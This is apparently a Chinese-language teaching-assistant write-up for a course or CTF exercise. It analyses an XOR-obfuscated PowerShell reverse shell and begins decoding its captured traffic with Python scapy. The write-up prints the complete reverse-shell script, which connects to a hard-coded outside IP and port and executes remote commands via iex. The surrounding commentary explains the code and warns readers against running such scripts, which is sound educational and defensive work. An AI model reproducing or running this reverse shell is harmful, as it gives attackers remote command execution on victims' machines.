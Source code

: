 
[Get-xor.ps1](./Get-xor.ps1)
```shell=
function Get-Xor {
    $xor_passwd = "x0R_"
    $padding_xor_passwd = ($xor_passwd * [int]($args[0].Length / $xor_passwd.Length)) + $xor_passwd.Substring(0, $args[0].Length % $xor_passwd.Length)
    $args[0] = [System.Text.Encoding]::UTF8.GetBytes($args[0])
    $args[0] = $(
        for ($i = 0; $i -lt $args[0].Length; $i++) {
            $args[0][$i] -bxor $padding_xor_passwd[$i]
        })
    [System.Text.Encoding]::UTF8.GetString($args[0])
}


$client = New-Object System.Net.Sockets.TCPClient("45.79.159.73", 39637)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $command = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $command = Get-Xor $command
    $response = (iex $command 2>&1 | Out-String )
    $response = $response + "PS " + (pwd).Path + "> "
    $response = GET-Xor $response
    $response = ([text.encoding]::ASCII).GetBytes($response)
    $stream.Write($response,0,$response.Length)
    $stream.Flush()
}

$client.Close()
```

應該有不少人是拿到 PowerShell script 就直接拿去 Run，提醒一下在野生環境千萬不要這麼做，因為那等於是你幫駭客執行惡意程式 XDDD （助教非常扼腕應該要把 C&C server 開著等同學連進來後再幫對方彈個小算盤www）


關於上面這段 code ，總共可以分成兩個部分：

1. 單獨來看 Get-Xor function 其實就是拿 input 和 xor_passwd 做 XOR 運算，其中 xor_password 長度不足的部分就重複 padding，必要時可以開 PowerShell 測試。
要注意的是算出來的字串不一定都是可視字元（也不要直接把 wireshark 的 ASCII 字串手動複製==）。

2. 從中間(line 13)開始是 C&C server 連線建立，在送出指令和接收資訊的時候分別做 Get-Xor 混淆，這也是為何 wireshark 有一整段都看不懂的原因。這段 script 其中 `iex` ([Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7)) 就是執行的部分，有點像 Python `eval` 這類的容易被駭客濫用的危險功能。
 

知道混淆方式，那就有辦法還原啦！

不知道各位是如何把密文 dump 出來，這裡是直接用 Python 把指定封包條件下的字串拿出來的同時順便解密，先簡單帶一下 [scapy](https://scapy.readthedocs.io/en/latest/) 套件的使用方式。



```python
## Python3
>>> from scapy.all import *
>>> pkts = rdpcap('./reverse_shell.pcap') # read pcap file
>>> type(pkts) # check data tpye
<class 'scapy.plist.PacketList'>
>>> pkts[0].show() # use show() or display() to see info in packet
###[ Ethernet ]###
  dst       = ff:ff:ff:ff:ff:ff
  src       = 08:00:27:8c:d3:ad
  type      = IPv4
###[ IP ]###
     version   = 4
     ihl       = 5
     tos       = 0x0
```